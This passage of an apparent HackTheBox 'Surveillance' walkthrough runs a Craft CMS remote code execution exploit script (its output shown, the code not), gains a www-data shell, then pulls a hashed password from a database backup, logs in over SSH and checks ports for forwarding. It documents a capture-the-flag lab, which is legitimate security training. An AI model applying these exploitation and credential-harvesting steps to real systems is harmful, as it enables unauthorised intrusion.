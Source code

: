 ````
## Additional Resources

For more information and insights into this CVE, I would like to extend my thanks to Calif, who provided a reference to their blog post covering this topic:

- [Calif's Blog Post - Craft CMS Remote Code Execution](https://blog.calif.io/p/craftcms-rce)


## Disclaimer

This Gist is intended for educational purposes only and should not be used for any malicious activities. Always ensure you have the necessary permissions and follow ethical guidelines when testing or researching security vulnerabilities.

For any questions or clarifications, please feel free to reach out. Stay safe and secure!

````

save this python script with **.py** format and run the following line of codes.

```
┌──(BATMAN㉿GC)-[~/HackTheBox/Surveillance]
└─$ python3 script.py http://surveillance.htb/
[-] Get temporary folder and document root ...
[-] Write payload to temporary file ...
[-] Trigger imagick to write shell ...
[-] Done, enjoy the shell
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We got the initial access to shell **www-data**

I explored and discovered a backup directory within the storage.

```
www-data@surveillance:~/html/craft/storage/backups$ ls
ls
surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

Now we will import **surveillance--2023-10-17-202801--v4.4.14.sql.zip** to our machine. When we unzip we found a user **Matthew** and with a hashed password.

```
Now we Login with user Matthew

ssh matthew@surveillance.htb
matthew@surveillance.htb's password:
```

Checking out the open ports on the machine reveals that the 8080 is rather special, let's check it out by forwarding the port locally via SSH

```
bash-5.1$ netstat -nltp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:1234            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
```